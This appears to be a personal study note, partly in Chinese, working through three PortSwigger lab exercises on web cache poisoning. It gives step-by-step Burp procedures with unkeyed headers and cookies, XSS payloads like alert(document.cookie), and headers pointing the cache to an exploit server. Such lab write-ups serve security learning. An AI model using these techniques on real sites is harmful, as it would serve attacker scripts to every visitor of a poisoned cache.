






# Web缓存投毒

## Lab-Web cache poisoning with an unkeyed header

1. With Burp running, load the website's home page

2. In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the `GET` request for the home page and send it to Burp Repeater.

3. Add a cache-buster query parameter, such as `?cb=1234`.

4. Add the `X-Forwarded-Host` header with an arbitrary hostname, such as `example.com`, and send the request.

5. Observe that the `X-Forwarded-Host` header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at `/resources/js/tracking.js`.

6. Replay the request and observe that the response contains the header `X-Cache: hit`. This tells us that the response came from the cache.

7. Go to the exploit server and change the file name to match the path used by the vulnerable response:
   
   `/resources/js/tracking.js`

8. In the body, enter the payload `alert(document.cookie)` and store the exploit.

9. Open the `GET` request for the home page in Burp Repeater and remove the cache buster.

10. Add the following header, remembering to enter your own exploit server ID:
    
    `X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`

11. Send your malicious request. Keep replaying the request until you see your exploit server URL being reflected in the response and `X-Cache: hit` in the headers.

12. To simulate the victim, load the poisoned URL in the browser and make sure that the `alert()` is triggered. Note that you have to perform this test before the cache expires. The cache on this lab expires every 30 seconds.

13. If the lab is still not solved, the victim did not access the page while the cache was poisoned. Keep sending the request every few seconds to re-poison the cache until the victim is affected and the lab is solved.

关键是要找到那个`unkeyed header`，并且该header会影响响应。这个Lab中，header字段：`X-Forwarded-Host`导致了响应中对应domain的请求，如下

在服务器`exploit-0a85005f03e99819c4108c94011d007d.exploit-server.net`设置如下响应即可

为了防止缓存过期，可定期发送报文以维持缓存有效

## Lab-Web cache poisoning with an unkeyed cookie

1. With Burp running, load the website's home page.

2. In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Notice that the first response you received sets the cookie `fehost=prod-cache-01`.

3. Reload the home page and observe that the value from the `fehost` cookie is reflected inside a double-quoted JavaScript object in the response.

4. Send this request to Burp Repeater and add a cache-buster query parameter.

5. Change the value of the cookie to an arbitrary string and resend the request. Confirm that this string is reflected in the response.

6. Place a suitable [XSS](https://portswigger.net/web-security/cross-site-scripting) payload in the `fehost` cookie, for example:
   
   `fehost=someString"-alert(1)-"someString`

7. Replay the request until you see the payload in the response and `X-Cache: hit` in the headers.

8. Load the URL in the browser and confirm the `alert()` fires.

9. Go back Burp Repeater, remove the cache buster, and replay the request to keep the cache poisoned until the victim visits the site and the lab is solved.

查看请求过程

这里Cookie字段中的`fehost`会出现在响应里

攻击向量：-alert(1)-

> `-alert(1)-`是一个JavaScript表达式，它可以在字符串中嵌入执行代码。当浏览器解析该字符串时，它会识别其中的JavaScript代码并将其作为脚本执行。在这个例子中，`-alert(1)-`实际上是一个将`alert(1)`嵌入到字符串中的操作。

## Lab-Web cache poisoning with multiple headers

1. With Burp running, load the website's home page.

2. Go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the `GET` request for the JavaScript file `/resources/js/tracking.js` and send it to Burp Repeater.

3. Add a cache-buster query parameter and the `X-Forwarded-Host` header with an arbitrary hostname, such as `example.com`. Notice that this doesn't seem to have any effect on the response.

4. Remove the `X-Forwarded-Host` header and add the `X-Forwarded-Scheme` header instead. Notice that if you include any value other than `HTTPS`, you receive a 302 response. The `Location` header shows that you are being redirected to the same URL that you requested, but using `https://`.

5. Add the `X-Forwarded-Host: example.com` header back to the request, but keep `X-Forwarded-Scheme: nothttps` as well. Send this request and notice that the `Location` header of the 302 redirect now points to `https://example.com/`.

6. Go to the exploit server and change the file name to match the path used by the vulnerable response:
   
   `/resources/js/tracking.js`

7. In the body, enter the payload `alert(document.cookie)` and store the exploit.

8. Go back to the request in Burp Repeater and set the `X-Forwarded-Host` header as follows, remembering to enter your own exploit server ID:
   
   `X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`

9. Make sure the `X-Forwarded-Scheme` header is set to anything other than `HTTPS`.

10. Send the request until you see your exploit server URL reflected in the response and `X-Cache: hit` in the headers.

11. To check that the response was cached correctly, right-click on the request in Burp, select "Copy URL", and load this URL in Burp's browser. If the cache was successfully poisoned, you will see the script containing your payload, `alert(document.cookie)`. Note that the `alert()` won't actually execute here.

12. Go back to Burp Repeater, remove the cache buster, and resend the request until you poison the cache again.

13. To simulate the victim, reload the home page in the browser and make sure that the `alert()` fires.

14. Keep replaying the request to keep the cache poisoned until the victim visits the site and the lab is solved.

在header添加`X-Forwarded-Host`与`X-Forwarded-Scheme`字段

> X-Forwarded-Scheme 头部是一个HTTP请求头部，通常由代理服务器添加，用于指示客户端使用的协议或方案（即HTTP或HTTPS）。

这里服务端只支持https，302重定向到了Location：https://example.com中

与第一个Lab相同，修改host为：`https://exploit-0ac700e103573014c094850301c3006d.exploit-server.net/`

利用该重定向实施了缓存

